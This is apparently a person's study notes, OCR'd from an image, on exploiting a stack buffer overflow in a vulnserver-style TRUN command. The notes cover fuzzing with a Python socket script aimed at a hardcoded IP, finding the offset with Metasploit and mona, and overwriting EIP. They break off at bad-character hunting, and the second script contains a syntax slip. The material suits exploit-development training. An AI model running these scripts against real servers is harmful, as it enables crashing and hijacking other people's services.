 
Tools ::
	
	gcc - gcc -m32(architecture) file.c -o(output) file.exe
	objdump - objdump -d(disassemble) -Mintel(architecture) file.exe > assembly.txt




Buffer Overflows ::
	
	Fuzzing:
		
		import sys
		import socket

		buffer=["A"]
		counter=100

		while len(buffer) <= 30:
		    buffer.append("A"*counter)
		    counter=counter+200

		for string in buffer:
		    print("Fuzzing... with %s bytes" % len(string))
		    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		    connect=s.connect(('111.61.0.96', 9999))
		    s.send(('TRUN /.:/' + string))
		    s.close()


		when the program crashes, we note the bytes in which it happened and move on to finding the offset.

	Finding the offset:

		/usr/share/metasploit-framework/tools/exploits/pattern_create.rb -l (bytes)

		/usr/share/metasploit-framework/tools/exploits/pattern_offest.rb -l (bytes) -q (EIP)

		or with mona:

			!mona pc (pattern_create)

			!mona po (pattern_offset)r


	Overwriting the EIP:

		import sys
		import socket

		shellcode = "A"*2003 + "B"*4
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		try:
			connect=s.connect(('IP', port))
			s.send(('TRUN' /.:/ + shellcode))
		except:
			print("CHECK DEBUGGER!.")
		s.close()

	Finding bad characters:

